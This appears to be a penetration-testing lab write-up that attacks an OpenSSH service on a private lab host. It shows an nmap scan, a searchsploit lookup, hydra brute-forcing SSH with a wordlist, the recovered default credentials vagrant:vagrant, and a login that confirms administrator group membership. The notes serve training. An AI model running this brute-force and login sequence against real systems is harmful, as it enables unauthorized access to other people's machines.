 ### [OpenSSH](../3-metasploit/ssh-msf-exp.md)

> Obtain the new target IP if the lab was restarted.
>
> Target IP: `10.2.16.83`
>
> Based on the FTP Enumeration:
>
> - `administrator`:`vagrant`
> - `vagrant`:`vagrant`

```bash
nmap -sV -sC -p 22 10.2.16.83
```

```bash
22/tcp open  ssh     OpenSSH 7.1 (protocol 2.0)
| ssh-hostkey: 
|   2048 83:56:2e:69:b5:2d:b4:9a:e4:7f:97:86:d8:bc:ae:7b (RSA)
|_  521 c0:e2:da:9d:e2:1e:58:09:7e:80:07:ec:3e:b4:57:f5 (ECDSA)
```

```bash
searchsploit OpenSSH 7.1
# Use username enumeration if needed
```

- **Brute-force SSH**

```bash
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh

hydra -l administrator /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh
# No valid password for SSH - administrator
```

```bash
[22][ssh] host: 10.2.16.83   login: vagrant   password: vagrant
```

![](.gitbook/assets/image-20230424114404462.png)

- User SSH login can be tried

```bash
ssh vagrant@10.2.16.83
# vagrant:vagrant
# WORKS!

ssh administrator@10.2.16.83
# administrator:vagrant
# DOES NOT work!

net localgroup administrators
# "vagrant" is in the Administrators Group
```
